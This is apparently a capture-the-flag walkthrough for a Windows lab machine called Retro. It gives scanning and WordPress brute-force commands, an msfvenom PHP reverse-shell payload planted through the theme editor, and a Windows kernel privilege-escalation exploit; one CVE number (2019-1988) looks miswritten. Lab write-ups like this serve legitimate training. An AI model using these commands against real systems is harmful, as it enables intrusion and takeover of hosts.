

# Retro
New high score!

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.


# Retro
  ``nmap -sV -A ip``


```dirsaerch -u 10.10.196.137 -w /usr/share/wordlists/dirb/big.txt```


Found /retro web directory and web site was built with wordpress.

Read all the pages and Tried the `` wade`` username for `wp-login.php` and that was correct username.

Tried to brute force password 

```wpscan --url http://10.10.213.239/retro/wp-login.php --passwords ./hacking/rockyou.txt --usernames wade```

But don't get any valid password event after a long time.


Again gone through all the pages and found some hint 


Tried using ``parzival`` and logged in succesfuly through ``wp-login.php``. Edited the file in themes section with php reverse shell .

```msfvenom -p php/meterpreter/reverse_tcp LPORT=1234 LHOST=10.10.10.10 -f raw -o reverse_shell.php```

And kept a listener :
```msfconsole ```

```payload php/meterpreter/reverse_tcp```

Successfully gained a shell but we don't have permission to go into some directory from here.

## I tried it with same username and password for remote desktop because an rdp server was also running. Logged in succesfully .

Found the usr.txt

There was some hint for
## Privilege Escalation 

I found a ``hhupd.exe`` in ``recycle bin`` googled it and found cve-2019-1988 related to this exe file.
But from here i didn't get the NT/Authority.

So i searched for kernal exploitation. Found CVE-2017-0213
```https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213```

Executed the x64 exe file and got the root!!!
